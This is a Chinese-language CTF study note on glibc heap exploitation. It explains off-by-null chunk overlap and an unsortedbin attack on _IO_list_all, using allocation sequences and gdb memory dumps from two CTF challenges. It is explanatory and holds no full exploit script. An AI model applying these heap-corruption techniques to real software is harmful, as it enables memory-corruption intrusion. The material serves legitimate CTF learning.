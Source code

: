 # The Method of Heap Use In CTF #
本篇文章的目的旨在对堆的一些使用方法和技巧进行总结，会不定期的更新。
## 1. off by null ##
以 **sctf2018 bufoverflow\_a** 题目为例，off by null的最终目的是为了完成chunk overlap，从而可以对其中的某些chunk内容进行改写。
### 利用方法1： ###
通过改写下一个chunk的size字段，从而将原空闲chunk的大小缩小。  
例如如下所示代码：
  
	Alloc(0x88)		#0
	Alloc(0x400)	#1
	Alloc(0x110)	#2
	Alloc(0x88)		#3

	Delete(0)
	Delete(1)
	Alloc(0x88)		#0
	Fill("a"*0x88)	//假设Fill函数中存在off by null漏洞，会多写一个"\x0"
此时，我们可以看看对于chunk1 的头部字段，Fill()函数执行前后的变化情况。  
	
	Fill()前
	0x0000000000000000	0x0000000000000091		<--chunk0
	......................................
	......................................
	0x0000000000000000	0x0000000000000000
	0x0000000000000000	0x0000000000000411		<--chunk1
	......................................
	......................................
	0x0000000000000410	0x0000000000000110		<--chunk2	
	
	Fill()后
	0x0000000000000000	0x0000000000000091		<--chunk0
	......................................
	......................................
	0x6161616161616161	0x6161616161616161
	0x6161616161616161	0x0000000000000400		<--chunk1
	......................................
	......................................
	0x0000000000000410	0x0000000000000110		<--chunk2		
			
可以看到，chunk1的大小减少了0x10byte。然后再次进行chunk的申请。  
	
	Alloc(0x88)		#1
	Alloc(0x88)		#4
	Alloc(0x200)	#5
	Alloc(0xc8)		#6
新申请的chunk1\_new，chunk4，chunk5，chunk6会占用之前chunk1\_old（大小为0x400）的位置。  
实际动态调试结果如下图所示：  

	0x5555557580b0:	0x6161616161616161	0x0000000000000091		<--chunk1
	0x5555557580c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
	0x5555557580d0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580f0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758100:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758110:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758120:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758130:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758140:	0x0000000000000090	0x0000000000000090		<--chunk4
	0x555555758150:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557581c0:	0x0000000000000000	0x0000000000000000
	0x5555557581d0:	0x0000000000000000	0x0000000000000211		<--chunk5
	0x5555557581e0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557583d0:	0x0000000000000000	0x0000000000000000
	0x5555557583e0:	0x0000000000000000	0x00000000000000d1		<--chunk6
	0x5555557583f0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557584a0:	0x0000000000000000	0x0000000000000000
	0x5555557584b0:	0x0000000000000000	0xcccccccccccccccd
	0x5555557584c0:	0x0000000000000410	0x0000000000000110		<--chunk2
	0x5555557584d0:	0x0000000000000000	0x0000000000000000

此时将chunk1\_new释放，再将chunk2释放。  

	Delete(1)
	Delete(2)
	Delete(5)
由于chunk2的presize字段的值仍为0x410，且其pre\_inuse为0（表示上一个块也处于释放状态）。释放chunk2会出发前向合并，形成一个包含chunk1，chunk4，chunk5，chunk6和chunk2的大块，如下图所示：

	gdb-peda$ x/150gx 0x5555557580c0-0x10
	0x5555557580b0:	0x6161616161616161	0x0000000000000521		<--原chunk1
	0x5555557580c0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
	0x5555557580d0:	0x0000000000000000	0x0000000000000000
	0x5555557580e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557580f0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758100:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758110:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758120:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758130:	0xcccccccccccccccc	0xcccccccccccccccc
	0x555555758140:	0x0000000000000090	0x0000000000000090		<--chunk4
	0x555555758150:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557581c0:	0x0000000000000000	0x0000000000000000
	0x5555557581d0:	0x0000000000000000	0x0000000000000211		<--chunk5
	0x5555557581e0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557583d0:	0x0000000000000000	0x0000000000000000
	0x5555557583e0:	0x0000000000000000	0x00000000000000d1		<--chunk6
	0x5555557583f0:	0x0000000000000000	0x0000000000000000
	......................................................
	......................................................
	0x5555557584a0:	0x0000000000000000	0x0000000000000000
	0x5555557584b0:	0x0000000000000000	0xcccccccccccccccd
	0x5555557584c0:	0x0000000000000410	0x0000000000000110		<--原chunk2
	0x5555557584d0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557584e0:	0xcccccccccccccccc	0xcccccccccccccccc
	0x5555557584f0:	0xcccccccccccccccc	0xcccccccccccccccc


### 利用方法2： ###


## 2.Unsortedbin Attack ##
主要利用chunk分配过程中，如果使用unsortedbin进行分配，会有一个拆链的操作，该操作可以实现任意地址写固定值（unsortedbin地址）的操作，具体代码如下图0所示。  

![0](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack.JPG)  

其中bck为当前待切分chunk（victim）的bk值，即bck = victim->bk。因此我们在利用时，可以伪造victim的bk值，使其等于我们想要修改地址-0x10的地址（64bit，32bit在为-0x8），这样就可以改写改地址的内容为一个很大的值（unsortedbin的地址）。

以pwnable.tw的一道题目（BookWriter）为例进行讲解。  

该题目类型为菜单类题目，通过漏洞点可以进行堆块的越界写，但没有提供free函数，题目中一个考点就是如何在没有free的情况下泄露libc的地址，使用的方法为修改topchunk\_size，当topchunk\_size不满足分配要求时，会先将该chunk申请，然后再进行free加入unsortedbin中，然后再在另一块区域分配一个新的topchunk。  

完成上述操作后heap布局如下图1所示：  

![1](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack1.JPG)

之后为了能够控制程序执行流程，需要改写\_IO\_list\_all为unsortedbin地址，在这我们使用的方法就为unsortedbin attack。在这里有一个需要注意的地方就是什么时候main\_arena中last\_remainder字段会发生变化。具体代码如下图2所示：  

![2](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack2.JPG)  

可以看到只有当前申请chunk大小（nb）为smallbin时，且unsortedbin中没有chunk大小正好等于申请大小（nb），此时会将所有chunk先放入到对应bin链表中，然后选择一个大于nb的最小chunk，将该chunk切分后将其加入unsortedbin中，并设置last\_remainder字段。  

然后再结合下图3所示代码（last\_remainder字段发生改变的条件）：  
![3](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack3.JPG)  

可以推断出如下结论：  
**注：last\_remainder字段可以认为是为smallbin设计的，largebin不会用到它。并且如果last\_remainder字段有值，则unsortedbin中肯定只存在一个chunk。**

有了上述理论方面的依据，下面我们就可以根据实际情况来看看如何修改\_IO\_list\_all字段了。

如图2所示，当前unsortedbin中只有一个大小为0xf30的chunk A，且last\_remainder字段为null，此时如果我们申请一个smallbin，则会先将chunk A从unsortedbin中取出，放入对应的largebin中。然后由于申请大小（nb）在对应bin链表中找不到合适的空闲chunk，又会将chunk A再从largebin链表中取出，进行切分后再次放入unsortedbin中，并设置last\_remainder字段。  

实际运行结果如下图4所示（再次申请了一个大小为0x70的chunk）：  
![4](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack4.JPG)  
可以看到此时last\_remainder已经有值，且unsortedbin等于last\_remainder，之后的smallbin申请可以使用unsortedbin直接分配。

**关键点！！！！！**  
如果我们可以一直使用unsortedbin中的唯一chunk直接进行切分分配，但unsortedbin attack的触发条件又为不使用该方式进行分配（因为必须要触发拆链操作），这不互相矛盾吗？

注意仔细看图3中，可以使用unsortedbin直接分配的条件：  
1. 申请chunk大小nb为smallbin范围  
2. bck == unsorted\_chunks(av)，即当前unsortedbin中只有一个chunk  
3. victim == last\_remainder  
4. 切分后的剩余chunk大小要大于chunk允许的最小值

注意其中的条件2，如果我们能够改写victim的bk字段，那么bck = victim->bk = X（伪造值） != unsorted\_chunks(av)，则不会进行该分支，会进行下面的拆链操作。

伪造前，如图5所示：  
![5](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack5.JPG)  
伪造后，如图6所示：  
![6](https://raw.githubusercontent.com/fade-vivida/CTF/master/picture/unsortedbin_attack6.JPG)  

其中0x7ffff7dd2510就为\_IO\_list\_all地址-0x10，然后再次申请一个大小小于0x60的chunk，则会将该chunk从unsortedbin链表上拆下，触发unsortedbin attack。  

由于触发unsortedbin attack后程序会直接崩溃，无法截图，下面手动画一下触发后，堆块的相关布局情况。  

main\_arena中相关字段：  
unsorted bin（bin0的fd，bk字段）  
0x7ffff7dd1b88:		0x0000000000603350(fd)	0x00007ffff7dd2510(bk)  
\_IO\_list\_all字段：  
0x7ffff7dd2510:		0x0000000000000000		0x0000000000000000(size)  
0x7ffff7dd2520:		0x00007ffff7dd1b78(fd)	0x0000000000000000(bk)  

可以看到，成功将\_IO\_list\_all字段修改为了main\_arena中topchunk字段的地址。之后的利用内容就属于FSOP，这里不再赘述。



